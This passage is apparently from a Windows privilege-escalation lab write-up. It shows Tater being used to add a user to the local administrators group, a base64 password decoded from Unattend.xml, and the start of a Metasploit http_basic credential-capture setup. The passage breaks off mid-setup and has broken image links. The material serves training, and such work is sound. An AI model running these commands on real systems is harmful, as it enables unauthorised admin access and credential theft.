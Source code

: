 Then, we import the Tater module:

```powershell
Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1
```

Finally, we run the Tater module bypassing the command net localgroup administrators user /add to add our user in administrators localgroup:

```powershell
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
```

The execution and the output of the command net localgroup administrators to check if the exploit had success:

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

## Password Mining Escalation - Configuration Files

Many times the developers or the administrator put the password in the configuration files. Therefore, by searching words like “password” or “passwd” we can obtain the password used in the system. Also, these passwords are obfuscated in base64, so it is easy to retrieve the cleartext.

### Exploitation

In this task, the password is in the `C:\Windows\Panther\Unattend.xml` file and it is in base64.

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

So, we take the base64 password and with the following command we can obtain the password in cleartext:

```bash
	
$ echo cGFzc3dvcmQxMjM= | base64 -d
> password123 
```

## Password Mining Escalation - Memory

Sometimes services save the user credentials <mark style="color:red;">**in clear text in memory**</mark> :cry:. When this happens, we can dump what is saved in the memory and read the saved credentials.

### Exploit

To exploit this vulnerability, we use the `http_basic` module of Metasploit to generate a prompt for credentials.\


We set the field `SRVHOST`, `SRVPORT` with the Kali Machine IP and port that will simulate a web server and the `URIPATH`:\


<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>
